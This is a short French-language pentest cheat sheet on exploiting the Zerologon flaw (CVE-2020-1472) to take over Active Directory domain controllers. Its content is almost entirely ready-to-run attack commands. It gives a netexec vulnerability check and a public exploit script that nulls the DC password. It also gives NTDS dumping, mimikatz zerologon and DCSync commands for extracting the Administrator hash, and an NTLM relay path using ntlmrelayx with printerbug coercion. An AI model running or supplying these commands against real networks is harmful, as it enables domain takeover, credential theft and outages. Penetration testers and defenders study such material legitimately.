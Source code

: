 Dans la pratique, la faille Zerologon (CVE-2020-1472) permet à un attaquant de prendre le contrôle d'un contrôleur de domaine, principalement de deux manières :

## Remplacer le hash du DC par un hash null

Utilisation de [https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py](https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py) :
Cet exploit va remplacer le hash du DC par un hash null, le problème de cette méthode est donc que l'AD va vite devenir inutilisable :

---
### Depuis Linux

#### Vérifier si le DC est vulnérable

```bash
netexec smb 10.10.10.10 -u "" -p "" -M zerologon
```

#### Exploitation de la faille

```bash
cve-2020-1472-exploit.py 'nomDuDC' 'adresseIpDuDC'
```

```bash
netexec smb 10.10.10.10 -u 'DC0$' -p '' --ntds
```

---
### Depuis Windows

#### L'exploit peut se faire avec mimikatz

```bash
lsadump::zerologon /target:dc.domain.local /account:DC$ /exploit
```

#### Puis on effectue le DCSync

```bash
lsadump::dcsync /domain:domain.local /dc:dc.domain.local /user:Administrator /authuser:DC$ /authdomain:domain /authpassword:"" /authntlm
```

---
### Relais NTLM

La seconde méthode, plus élégante, permet d'utiliser un relais NTLM. Cette méthode est plus simple et n'a pas la contrainte de remplacer le mot de passe du DC, n'entrainant donc pas d'instabilité de l'AD.

Plusieurs prérequis sont néanmoins nécessaires:
- Le service PrintSpooler doit tourner sur le DC
- Un compte utilisateur 
- Un second DC

Mise en place du relais NTLM :

```bash
ntlmrelayx -t dcsync://DC2 -smb2support
```

```bash
printerbug.py 'domain.local'/user:Password@ipDC ipAttaquant
```

